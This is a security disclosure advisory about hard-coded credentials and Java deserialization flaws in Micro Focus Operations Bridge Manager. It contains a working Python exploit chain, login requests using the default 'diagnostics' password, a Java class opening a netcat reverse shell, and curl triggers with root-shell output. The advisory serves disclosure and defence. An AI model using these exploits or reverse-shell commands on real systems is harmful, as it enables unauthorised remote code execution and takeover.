



# Multiple (RCE) Vulnerabilities in Micro Focus Operations Bridge Manager
### By Pedro Ribeiro (pedrib@gmail.com | [@pedrib1337](https://twitter.com/pedrib1337)) from [Agile Information Security](https://agileinfosec.co.uk)

#### Disclosure Date: 2020-10-28 | Last Updated: 2022-01-16

* [Summary](#summary)
* [Vulnerability Details](#vulnerability-details)
    * [#1: Use of Hard-coded Credentials](#1-use-of-hard-coded-credentials)
    * [#2: Insecure Java Deserialization in UCMDB Services](#2-insecure-java-deserialization-in-ucmdb-services)
    * [#3: Insecure Java Deserialization in RegistrationServlet](#3-insecure-java-deserialization-in-registrationservlet)
    * [#4: Insecure Java Deserialization in SAMDownloadServlet](#4-insecure-java-deserialization-in-samdownloadservlet)
    * [#5: Insecure Java Deserialization in RemoteProxyServlet](#5-insecure-java-deserialization-in-remoteproxyservlet)
    * [#6: Use of Outdated and Insecure Java Libraries](#6-use-of-outdated-and-insecure-java-libraries)
    * [#7: Incorrect Default Folder Permissions (resulting in Privilege Escalation to SYSTEM)](#7-incorrect-default-folder-permissions-resulting-in-privilege-escalation-to-system)
* [Fixes / Mitigations](#fixes--mitigations)


## Product Information
[From the vendor's website](https://docs.microfocus.com/itom/Operations_Bridge_Manager:2018.05/OMi/ConceptsGuide/getStarted/getStarted_concepts):  
*OBM as the operations bridge provides a single center of control for your IT operations.
All event and performance management data originating from servers, networks, applications, storage, and other IT silos in your infrastructure is consolidated into a single event stream in an advanced, central event console. The console displays monitoring alerts to the appropriate team of operators.*

*You can quickly identify, monitor, troubleshoot, report on, and resolve problems in your distributed IT environment. These abilities make it possible for you to improve the performance and availability of the infrastructure and services in your monitored environment, adding to the efficiency and productivity of your business. OBM helps you locate and solve event-related issues before business service quality degrades. It offers the tools that help operators solve problems without involving a subject matter expert. This frees subject matter experts to focus on strategic activities.*

A special thank you to the [Zero Day Initiative](https://www.zerodayinitiative.com/) for handling the disclosure of these vulnerabilities to Micro Focus.
    
## Summary

Micro Focus Operations Bridge Manager (**OBM**) is a complex product that is used to monitor and identify IT infrastructure problems. It integrates with other enterprise software such as [Micro Focus Operations Bridge Reporter](https://www.microfocus.com/en-us/products/it-reporting/overview), [Micro Focus Network Node Manager i](https://www.microfocus.com/en-us/products/network-node-manager-i-network-management-software/overview) and others.

The diagram below shows how the product integrates into complex IT environments:



The product itself is composed of:

* The OBM main application, which includes a Java Administrative Console, running on port 443
* UCMDB, a back-end management system, running on port 8443
* Postgres Database (by default, other databases can be used)
* Management Packs (only one is installed by default, several are available)
* Other optional components, depending on the installation type

Components can be installed all in one host, or separately, and can be installed in both Windows and Linux operating systems.

The UCMDB component, which has a UI available at port 8443, seems to be a stand-alone product that is integrated into several Micro Focus products, including of course OBM.

Micro Focus describes its purpose in the [documentation of one of the their products](https://docs.microfocus.com/SM/9.60/Codeless/Content/integrations/ucmdb/guide/about_ucmdb_integration_guide.htm):

> Micro Focus Universal CMDB is a Configuration Management database for enterprise IT organizations to capture, document, and store information about configuration items (CIs), service dependencies, and relationships that support business services.

Cutting through the enterprise-speak we can understand it is some sort of pimped-up database that manages configuration information for OBM and other Micro Focus products.

OBM requires a lot of network ports to be opened in order to communicate with other hosts as it can be seen in their [installation documentation](https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05/PortManage), such as 443 (main web application) and 8443 (UCMDB). This gives OBM a huge externally facing attack surface.

After analysing OBM, I found **a mountain of critical security vulnerabilities** that when combined result in a complete compromise of the application:

* Use of Hard-coded Credentials
* **Insecure Java Deserialization (an incredible total of 41 of them)**
* Use of Outdated and Insecure Java Libraries
* Incorrect Default Folder Permissions (resulting in Privilege Escalation to SYSTEM)

All of these vulnerabilities affect the latest version tested (2020.05) and many other versions and products, listed individually below. Both Windows and Linux installations are affected, except for the privilege escalation vulnerability, which only affects Windows.

It is out of scope of this advisory to explain Java deserialization, how it can be exploited and how devastating it can be. For more information on it the following links are highly recommended:

[Java Unmarshaller Security](https://github.com/mbechler/marshalsec)

[Foxglove Security Blog Post](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)

This advisory was released with multiple Metasploit exploit modules, which have been accepted and integrated into the framework:

* [microfocus_ucmdb_unauth_deser](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/microfocus_ucmdb_unauth_deser.rb)
* [microfocus_obm_auth_rce](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/microfocus_obm_auth_rce.rb)
* [microfocus_operations_privesc](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/microfocus_operations_privesc.rb)

Please also check my [companion advisory](
https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBR.md) for another related Micro Focus product, Micro Focus Operations Bridge Reporter.

## Vulnerability Details

### #1: Use of Hard-coded Credentials
* [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
* [CVE-2020-11854](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11854) / [ZDI-20-1287](https://www.zerodayinitiative.com/advisories/ZDI-20-1287/)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: None / N/A
* Affected Products / Versions:
    * Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
    * Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3 
    * Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 

OBM's authentication is handled by the UCMDB component. Upon installation, the following users are created:

* admin
* sysadmin
* UISysadmin
* bsm_odb_customer1
* diagnostics

These users are only visible when accessing the UCMDB component. From the main web application, only *admin* and users created in the main web application are visible.

The first three, *admin*, *sysadmin* and *UISysadmin* all have the same password, which is set up by the administrator when installing the product. 
Only *admin* can login to the main web application, the others can only login to  UCMDB.

I decided to investigate the remaining two accounts, *bsm_odb_customer1* and *diagnostics*, since they are [not referred](https://docs.microfocus.com/search/bsm_odb_customer1/documentation/0/10/Operations%20Bridge%20Manager/2020.05) to [at all](https://docs.microfocus.com/search/diagnostics/documentation/0/10/Operations%20Bridge%20Manager/2020.05) in the [documentation](https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05/Home).

Although it was not determined how these accounts are set up, with extensive testing it was determined that they both must have hard-coded passwords. While the password for *bsm_odb_customer1* was never discovered, the password for *diagnostics* is simply "admin".

This allows anyone to login to the UCMDB component as *diagnostics*. It should be noted that this user is unprivileged, but as we will see below, this does not matter.

In order to get a *LWSSO_COOKIE_KEY* that is authenticated, we need to send a request to *ucmdb-ui/cms/loginRequest.do*, with the username and the password in the query string (the latter base 64 encoded):

```
POST /ucmdb-ui/cms/loginRequest.do;?customerID=1&isEncoded=false&userName=diagnostics&password=YWRtaW4=&ldapServerName=UCMDB HTTP/1.1
```
> Snippet A: HTTP POST UCMDB login request

To which the UCMDB server will respond with:

```
HTTP/1.1 200 OK
Date: Sun, 17 May 2020 21:13:21 GMT
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000
Set-Cookie: LWSSO_COOKIE_KEY=WTQwNdgFlDSM1Il1XTlWJGErjHIGDg54mzv4Yu51_HMk3mrLF7ZMB6KeRecN30sWkdkEFJyLpqUGQ0hXQnPiapbw1891iuGEOW4Ewfk8XNUnIJsouObXN-GaZHLhkfHNlUKp73qEqqvY594n2P5O2sqsn9KYrK7PuGQ5FE0ddKkI2pIvn0rkbT2eRFVdSpHhk-6SadvfLm-CbzdrgLV2INWQgYlYtqMLevI5iv8byN4.; Path=/; HTTPOnly=; Secure=
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Authentication-Result-Key: AUTHENTICATED_SUCCESSFULLY
LOCALE: en
Content-Language: en
Content-Type: text/html;charset=utf-8
Content-Length: 26983

<... POST DATA ...>
```
> Snippet B: HTTP POST UCMDB login response

... which contains a fully authenticated *LWSSO_COOKIE_KEY* for the *diagnostics* user.

Both Linux and Windows versions of OBM are affected by this vulnerability.


### #2: Insecure Java Deserialization in UCMDB Services
* [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
* [CVE-2020-11853](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11853) / [ZDI-20-1288](https://www.zerodayinitiative.com/advisories/ZDI-20-1288/) to [ZDI-20-1325](https://www.zerodayinitiative.com/advisories/ZDI-20-1325/)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: Authentication required
* Affected Products / Versions:
    * Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
    * Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3 \
    * Data Center Automation version 2019.11 
    * Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 
    * Universal CMDB versions: 2020.05, 2019.11, 2019.05, 2019.02, 2018.11, 2018.08, 2018.05, 11, 10.33, 10.32, 10.31, 10.30 
    * Hybrid Cloud Management version 2020.05 
    * Service Management Automation versions 2020.5 and 2020.02

The UCMDB component can be accessed via:

* Java applet web interface
* Java thick client 
* REST API

While investigating the Java thick client it was found that after authentication, **almost ALL of its communication is done using Java serialized objects.**

This means that an authenticated attacker can simply inject a malicious Java object serialized into a POST body to one of the vulnerable endpoints, and immediately achieve remote code execution as root or SYSTEM.

There are a total of 38 vulnerable endpoints:

* /ucmdb/services/CmdbOperationExecuterService
* /ucmdb/services/CategoryFacadeForGui
* /ucmdb/services/CorrelationFacadeForGui
* /ucmdb/services/CorrelationRunnerFacade
* /ucmdb/services/PackageFacadeForGui
* /ucmdb/services/SchedulerFacadeForGui
* /ucmdb/services/FoldersFacade
* /ucmdb/services/BusinessModelFacadeForGui
* /ucmdb/services/WatchServerAPI
* /ucmdb/services/TopologyService
* /ucmdb/services/ReportService
* /ucmdb/services/CMSImagesService
* /ucmdb/services/PatternService
* /ucmdb/services/FolderService
* /ucmdb/services/RelatedCIsService
* /ucmdb/services/MailService
* /ucmdb/services/DiscoveryService
* /ucmdb/services/ServiceDiscoveryService
* /ucmdb/services/SoftwareLibraryService
* /ucmdb/services/DataAcquisitionService
* /ucmdb/services/CIService
* /ucmdb/services/HistoryService
* /ucmdb/services/BundleService
* /ucmdb/services/LocationService
* /ucmdb/services/SchedulerService
* /ucmdb/services/ImpactService
* /ucmdb/services/CommonService
* /ucmdb/services/PermissionsService
* /ucmdb/services/ClassModelService
* /ucmdb/services/SnapshotService
* /ucmdb/services/LDAPService
* /ucmdb/services/CITService
* /ucmdb/services/MultiTenancyService
* /ucmdb/services/SecurityService
* /ucmdb/services/ResourceManagementService
* /ucmdb/services/AutomationMappingService
* /ucmdb/services/LicensingService
* /ucmdb/services/GenericAdapterService

An example request to the ironically named *SecurityService* can be seen below:

```
POST /ucmdb-ui/services/SecurityService HTTP/1.1
Host: 10.10.10.99:8443
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
content-type: application/x-java-serialized-object
Cookie: LWSSO_COOKIE_KEY=1fezNb7T1QRggkhFBrYhMCuiSchrqKdyAabSSOMrZMeP28-FiIyzLNlVV9KBagKsLjiUbGdJ0mWen7OvATgC3LiWmlGRQw5vnTzm9tV8f3tIfOqXvbZIWudk4vajf4Qqux-X2S1MJJB6b2ikNA9M921ilRDptEY0IqeiQ68mxIAFs5PxS9I22r5YszZMSMYme05GgtdbQQA-JqOvDrRNYOFca5IZgtbpGkHzCPUUyLk.
Content-Length: 6855

<JAVA_SERIALIZED_OBJECT>
```

This POST request, if done with an authenticated *LWSSO_COOKIE_KEY*, will result in immediate code execution as root / SYSTEM if the *<JAVA_SERIALIZED_OBJECT\>* is a [*ysoserial*](https://github.com/frohoff/ysoserial/) payload.

In order to understand how this works, we need to dig a little deeper. All of the endpoints used above are implementations of Spring Framework remoting services. These service invocations are handled by *com.hp.ucmdb.uiserver.services.context.CmdbHttpInvokerServiceExporter*, which is a class implementing *org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter*. The [Javadoc](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html) contains a very good description of it:

> Servlet-API-based HTTP request handler that exports the specified service bean as HTTP invoker service endpoint, accessible via an HTTP invoker proxy.
> Deserializes remote invocation objects and serializes remote invocation result objects. Uses Java serialization just like RMI, but provides the same ease of setup as Caucho's HTTP-based Hessian protocol.

> HTTP invoker is the recommended protocol for Java-to-Java remoting. It is more powerful and more extensible than Hessian, at the expense of being tied to Java. Nevertheless, it is as easy to set up as Hessian, which is its main advantage compared to RMI.

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

In practice it works in the following way: the services listed above (for example *SecurityService*) are implemented in a way that allows remote method invocations. The snippet below contains code from the *SecurityService* implementation (*com.hp.ucmdb.uiserver.services.cmdb.impl.SecurityServiceImpl*):

```java
  public boolean isServerAdministrator() {
    try {
      UcmdbServiceInternal sdk = (UcmdbServiceInternal)ServerContext.get().executeInSessionlessContext(this.sessionContext.getSessionInfo().getCustomerContext(), new SessionlessContextExecutable<UcmdbServiceInternal>() {
            public UcmdbServiceInternal run(SessionContext sessionContext) {
              return sessionContext.getCmdbConnector().getSdk();
            }
          });
      UserId userId = this.sessionContext.getSessionInfo().getLoggedInUserId();
      return sdk.getAuthorizationModelServiceInternal().isServerAdministrator(userId);
    } catch (CmdbException e) {
      LOG.error("User could not be found in URM", (Throwable)e);
      return false;
    } catch (Exception e) {
      LOG.error("Error to get ServerAdministrator from URM", e);
      return false;
    } 
  }
```
> Snippet C: *com.hp.ucmdb.uiserver.services.cmdb.impl.SecurityServiceImpl.isServerAdministrator()*

As it can be seen above, this method returns whether the logged in user is an Administrator or not. In order for this method to be invoked remotely, we have to use send the serialized method invocation request over an HTTP POST request. These are Java serialized objects by default, which get picked up by the aforementioned *HttpInvokerServiceExporter* Spring Remoting class and then passed on to the implemented services.

While all the endpoints above implement different functionality and services, they can all be attacked in the same way. Each service class listed above might have a few or dozens of methods, and it is likely that many more (non-deserialization) vulnerabilities are lurking there.

If these flaws are chained with **Vulnerability #1**, an unauthenticated attacker can easily execute code in the OBM host. In order to achieve this, the following steps are necessary:

1. Authenticate to UCMDB with the *diagnostics* user as shown in **Snippet A** and **Snippet B**
2. Create a *ysoserial CommonsBeanutils1* payload with the desired command
3. Send the payload in the POST body to */ucmdb-ui/services/SecurityService* (or any other service endpoint listed above), together with the *LWSSO_COOKIE_KEY* obtained in step 1

The following Python code performs all steps in this chain:

```python
#!/usr/bin/python3
#
## Exploit for Micro Focus Operations Bridge Manager 2020.05 UCMDB Services Insecure Java Deserialization (CVE-2020-11853)
## By Pedro Ribeiro (pedrib@agileinfosec.co.uk | @pedrib1337) from Agile Information Security
#
import sys
import os
import requests

def usage():
    print("Usage: ./obmPwn.py <RHOST> <YSOSERIAL_JAR> <COMMAND>")
    exit(1)

if len(sys.argv) < 4:
    usage()

rhost = sys.argv[1]
ysoserial = sys.argv[2]
command = sys.argv[3]

if not os.path.exists(ysoserial):
    usage()

requests.packages.urllib3.disable_warnings()

print("[*] Generating ysoserial payload with command %s" % (command))
os.system("java -jar %s CommonsBeanutils1 '%s' > /tmp/payload.ser" % (ysoserial, command))

url_base = "https://%s:8443/ucmdb-ui" % (rhost)

url_login = url_base + "/cms/loginRequest.do;?customerID=1&isEncoded=false&userName=diagnostics&password=YWRtaW4=&ldapServerName=UCMDB"
print("[*] Authenticating to %s" % (url_login))
ses = requests.Session()
res = ses.post(url_login, verify=False)

auth = None
for cookie in res.cookies.items():
    if cookie[0] == "LWSSO_COOKIE_KEY":
        auth = cookie

if auth == None:
    print("[-] Failed to authenticate and obtain LWSSO_COOKIE_KEY")
    exit(1)
else:
    print("[+] We are now authenticated and obtained our LWSSO_COOKIE_KEY!")

# SecurityService is used here, but any of the other 37 endpoints can be used
url_pwn = url_base + "/services/SecurityService"
print("[*] Sending ysoserial payload to %s" % (url_pwn))

headers = {'content-type': 'application/x-java-serialized-object'}
with open('/tmp/payload.ser', 'rb') as payload:
    res = ses.post(url_pwn, headers=headers, data=payload, verify=False)
    if res.status_code == 500:
        print("[+] Success, your command has been executed!")
    else:
        print("[-] Something went wrong, please try again...")

```

Running the exploit code with:

```
python3 ucmdbPwn.py 10.10.10.99 ysoserial-master-SNAPSHOT.jar calc.exe
```

... will result in *calc.exe* being executed as SYSTEM in the Windows host at 10.10.10.99 running OBM:


Both Linux and Windows versions of OBM are affected by this vulnerability. The asciinema cast below shows the exploit in action on the Linux version of OBM:

[](https://asciinema.org/a/376442)


### #3: Insecure Java Deserialization in RegistrationServlet
* [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
* [CVE-2020-11853](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11853) / [ZDI-20-1327](https://www.zerodayinitiative.com/advisories/ZDI-20-1327/)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: Authentication required
* Affected Products / Versions:
    * Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
    * Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3 \
    * Data Center Automation version 2019.11 
    * Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 
    * Universal CMDB versions: 2020.05, 2019.11, 2019.05, 2019.02, 2018.11, 2018.08, 2018.05, 11, 10.33, 10.32, 10.31, 10.30 
    * Hybrid Cloud Management version 2020.05 
    * Service Management Automation versions 2020.5 and 2020.02

OBM exposes the class com.hp.opr.legacy.sitescope.servlet.RegistrationServlet at the endpoint */legacy/topaz/sitescope/conf/registration*.

The snippet below shows the decompiled code of the *doPost()* method:

```java
  public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
	ObjectInputStream ois = new ObjectInputStream((InputStream)request.getInputStream());
	HashMap<Object, Object> requestMap = null;
	try {
	  requestMap = (HashMap<Object, Object>)ois.readObject();
	} catch (ClassNotFoundException e) {
	  s_logger.error("Could not get object from request.");
	  response.sendError(400, "Could not get object from request.");
	  return;
	} 
	if (requestMap == null) {
	  s_logger.error("Could not get sample_t from request.");
	  response.sendError(400, "Could not get sample_t from request.");
	  return;
	} 
	String apiName = request.getParameter("apiName");
	if (apiName == null || apiName.equals("")) {
	  s_logger.error("Could not get api_name from request.");
	  response.sendError(400, "Could not get api_name from request.");
	  return;
	} 
	APIHandler h = APIHandlersDictionary.getHandler(apiName);
	if (h == null) {
	  s_logger.error("doPost: dont have handler for api_name ='" + apiName + "'");
	  response.sendError(400, "doPost: dont have handler for supplied api_name");
	  return;
	} 
	if (s_logger.isDebugEnabled())
	  s_logger.debug("doPost: Found handler for api " + apiName + ", invoking it..."); 
	invokeHandler(h, requestMap, response);
  }
```
> Snippet D: *com.hp.opr.legacy.sitescope.servlet.RegistrationServlet.doPost()*

As it can be seen in the first few lines, this servlet contains a classic, run of the mill Java Deserialization vulnerability. The request body of the HTTP POST request is turned into a *ObjectInputStream* and then *readObject()* is called on it.

This is trivial to trigger; all that is needed is to send a POST request to  */legacy/topaz/sitescope/conf/registration* with a body with the exploit.

In order to exploit it, it is necessary to compile *ysoserial* with *c3p0 0.9.1.2*. The patch in **Snippet E** should be applied to *ysoserial* before compiling:

```diff
diff --git a/pom.xml b/pom.xml
index 73d39c4..9d27473 100644
--- a/pom.xml
+++ b/pom.xml
@@ -239,7 +239,7 @@
                <dependency>
                        <groupId>com.mchange</groupId>
                        <artifactId>c3p0</artifactId>
-                       <version>0.9.5.2</version>
+                       <version>0.9.1.2</version>
                </dependency>
                <dependency>
                        <groupId>javax.servlet</groupId>
```
> Snippet E: patch to *ysoserial* for *c3p0 0.9.1.2* compilation


In order to exploit this in Windows using the *c3p0 ysoserial* payload, we need to generate an "exploit class":

```sh
cat  << EOF > ExploitClass.java
public class ExploitClass {
	public ExploitClass() throws Exception {
		Runtime rt = Runtime.getRuntime();
		// for Linux
		String[] commands = {"/bin/sh", "-c", "nc 10.10.10.1 8888 -e /bin/sh"};
		// for Windows
		//String[] commands = {"cmd", "/c", "mspaint.exe"};
		Process pc = rt.exec(commands);
		pc.waitFor();
	}
}
EOF
```
> Snippet F: *ExploitClass* code

The *ExploitClass* code needs to be compiled with Java 8:

```/usr/lib/jvm/java-8-openjdk-amd64/bin/javac ExploitClass.java```

We then start a Python server serving the object, as well as a listener to receive the reverse shell (assuming we're attacking a Linux server):

```sh
python -m SimpleHTTPServer 4444 &
nc -lvknp 8888
```

Generate the payload with our newline compiled *ysoserial*:

```sh
java -jar ysoserial-0.0.6-SNAPSHOT-all-c3p0-0.9.1.2.jar C3P0 "http://10.10.10.1:4444/:ExploitClass" > /tmp/payload.ser
```

And finally send the request to the server:

```sh
COOKIE='Cookie: JSESSIONID=xQJJmHDwOQMlAL93PaLPE4PA; LWSSO_COOKIE_KEY=mqx8GAJdW7M8dh5bO99hiZjXAgOHmdteaLsy_c9N77F6n2fFB_XWpe0wDHnpG-x2RbOHNm3H7hjHsmYpRc4PPg2ohEFN7duztvJD0M_u3GUcg_YUJPy5c6ewbqi61FRllh0AoNwAb5K-1fN-uRVK0c8yEVVIkBbxn9vxsCEhofRbZNdtnDQMb3WUeb7yInwRAzfPICWMnE5iuJ_TTyTDlw..;'

curl -i -s -k -X $'POST' \
	-H $'Host: 10.10.10.99' \
	--data-binary @/tmp/payload.ser \
	-H $'Content-Type: application/octet-stream' -H 'Expect:' -H "$COOKIE"  \
   $'https://10.10.10.99/legacy/topaz/sitescope/conf/registration'
```
> Snippet G: *curl* requests to trigger the Java deserialization


This results in the a request for *ExploitClass* received by the Python web server, followed by our reverse shell:

```sh
10.10.10.99 - - [] "GET /ExploitClass.class HTTP/1.1" 200 -
connect to [10.10.10.1] from (UNKNOWN) [10.10.10.99] 55340
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
uname -a
Linux centos7.nat 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
ls
hpbsmd.pid
libwrapper.so
nannyWrapperRunner.sh
wrapper
wrapper.jar
pwd
/opt/HP/BSM/supervisor/wrapper
```

Note that this vulnerability can only be exploited by an attacker who is logged in to the main web application. Unfortunately for the attacker, since the *diagnostics* account discussed in **Vulnerability #1** cannot be used to login to the main web application, this vulnerability remains exploitable only if authentication is achieved through other means.

In order to run the exploit in **Snippet G**, first authenticate to the main web application on port 443 using a valid account, and then change the *COOKIE* variable to the *LWSSO_COOKIE_KEY* received after authentication before executing the *curl* command.

Both Linux and Windows versions of OBM are affected by this vulnerability.


### #4: Insecure Java Deserialization in SAMDownloadServlet
* [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
* [CVE-2020-11853](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11853) / [ZDI-20-1328](https://www.zerodayinitiative.com/advisories/ZDI-20-1328/)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: Authentication required
* Affected Products / Versions:
    * Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
    * Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3 \
    * Data Center Automation version 2019.11 
    * Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 
    * Universal CMDB versions: 2020.05, 2019.11, 2019.05, 2019.02, 2018.11, 2018.08, 2018.05, 11, 10.33, 10.32, 10.31, 10.30 
    * Hybrid Cloud Management version 2020.05 
    * Service Management Automation versions 2020.5 and 2020.02

Another servlet that has a very simple Java deserialization vulnerability is *com.hp.opr.legacy.sitescope.servlet.SAMDownloadServlet*, which is exposed at */legacy/topaz/sitescope/conf/download*.

The code for the *doPost()* method is shown below:

```java
  public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
	Map<Object, Object> requestMap;
	ObjectInputStream ois = new ObjectInputStream((InputStream)request.getInputStream());
	try {
	  requestMap = (Map<Object, Object>)ois.readObject();
	} catch (ClassNotFoundException e) {
	  s_logger.error("Could not get object from request.");
	  response.sendError(400, "Could not get object from request.");
	  return;
	} 
	if (requestMap == null) {
	  s_logger.error("Could not get requestMap from request.");
	  response.sendError(400, "Could not get requestMap from request.");
	  return;
	} 
	if (!validateData(requestMap)) {
	  response.sendError(400, "Unable to validate properties from request.");
	  return;
	} 
	String xmlValue = handleRequest(requestMap);
	response.setContentType("text/xml; charset=UTF-8");
	PrintWriter writer = response.getWriter();
	writer.write(xmlValue);
  }
```
> Snippet H: *com.hp.opr.legacy.sitescope.servlet.SAMDownloadServlet.doPost()*

The same constraints from **Vulnerability #3** apply to this one. Authentication is required, the hardcoded *diagnostics* account from **Vulnerability #1** cannot be used and a patched *ysoserial* with *c3p0 0.9.1.2* is necessary for exploitation.

This vulnerability can be exploited exactly in the same way as the previous one, with the only modification required to **Snippet G** being the target URL, which has to be changed to */legacy/topaz/sitescope/conf/download*.

